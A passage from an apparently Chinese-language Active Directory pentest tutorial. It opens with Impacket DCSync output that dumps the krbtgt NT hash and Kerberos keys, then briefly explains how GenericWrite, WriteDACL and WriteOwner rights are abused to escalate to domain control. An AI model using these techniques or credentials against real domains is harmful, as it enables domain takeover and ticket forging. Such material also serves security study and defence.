/root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1258230d20deb8fa8c0ee72e014ae813:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:f17ecd5329b2b676b5737a7e40c5cd26337048e048b09663ceef99178afff9d8
krbtgt:aes128-cts-hmac-sha1-96:48387c994c399862ae5ef5a7c86f0c8e
krbtgt:des-cbc-md5:512a436789e32394
[*] Cleaning up...

```

## 6、GenericWrite权限
拥有该权限，可以修改目标安全对象的所有参数和属性，如 member，msDS-AllowedToActOnBehalfOfOtherIdentity属性等

但是不能赋予用户User-Force-change-Password或者 DCSync 权限

## 7、WriteDACL 权限
WriteDACL 的权限是可以修改目标对象的 DACL

默认情况下只有域管才能执行 Add-DomainObjectAcl去修改属性，但是如果 test3 用户拥有了WriteDACL权限也可以执行Add-DomainObjectAcl



接下来步骤和其他一致

## 8、WriteOwner
可以修改目标安全对象的Owner属性为任意用户，从而完全控制该安全对象。而 Owner 默认拥有 WriteDACL 等权限，不在赘述